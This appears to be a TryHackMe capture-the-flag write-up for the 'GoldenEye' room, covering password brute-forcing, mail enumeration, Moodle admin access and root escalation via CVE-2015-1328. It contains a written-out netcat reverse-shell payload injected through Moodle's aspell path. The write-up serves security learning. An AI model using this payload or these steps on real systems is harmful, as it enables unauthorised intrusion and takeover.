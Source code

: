 ```yaml
---
title: GoldenEye TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/2-2.png)

## Enumeration

We access the website, find a message with the mission and it tells us to enter the *"/sev-home/"* directory to log in with *"UNKNOWN"* user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/3.png)

We see that it asks for credentials, so we may need to brute force it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/4.png)

We review the source code, access the *"terminal.js"* file and identify an encoded password.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/5.png)

#### Password Decode

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/6.png)

We enter the credentials obtained (using the user *"boris"*) and we are invited to send an email to a GoldenEye supervisor.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/7.png)

We revisit the source code and list two supervisors.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/8.png)

We launch **Hydra** with a list of the two supervisors and a quick dictionary with most used passwords, we will get the new password of the user *"boris"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/10.png)

We connect by **Telnet** with the obtained credentials, we see that we have *3 mails* in the tray.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/11.png)

We read the *3rd email*, it seems that *Boris* saved the codes in the root of the root folder

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/12.png)

The next thing I tried was to catch all the users obtained from the emails and in the enumeration phase, I re-launched the same dictionary and the login credentials of the user *"Natalya"* appeared.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/13.png)

We use the new credentials, read the emails where we will get some credentials and a web address that we will have to add to our *"/etc/hosts"* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/14.png)

We log in, check **Moodle** and find a message from a *"Dr. Doak"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/15.png)

We try again to brute force the POP3 service with the user *"doak"* and we get the credentials of this user. Yes, that's right! We reconnect via **Telnet** and see your emails ;)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/16.png)

#### Credentials obtained from Doak mailings.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/17.png)

We connect to **Moodle** with the credentials obtained, look in its files and find one called *"s3cret.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/18.png)

#### Contents of file "s3cret.txt":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/19.png)

We access the path of the link and download the image to our kali.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/20.png)

We analyze with the tool "Exiftool" and we see that it contains a password encoded in base64.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/21.png)

## Exploitation

Log in with the administrator credentials, reviewing all the options we find the *"Path to aspell"* (we were previously given a hint of aspell).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/22.png)

#### Payload

```bash
sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f'
```

Create a new entry and click on the button.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/23.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/24.png)

## Privilege Escalation

We do a reconnaissance phase, but we do not find anything useful. We launch the **Linux exploit suggester** script, it lists several scripts that we can use. In my case, I used the *"CVE-2015-1328 - OVERLAYFS"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/25.png)

We host the file to compile it on the victim machine, but the **"gcc"** binary is not installed, but in the recognition phase we detect a binary called **"cc"**, if we use **"file"** on it we see several symbolic links until we find **"clang"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/26.png)

We modify the exploit by changing the **"gcc"** binary to **"cc"**, compile and run the exploit becoming root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/27.png)

We read the root flag and it gives us the path with the deactivation codes.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/28.png)

MISSION COMPLETED!!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/GoldenEye/29.png)




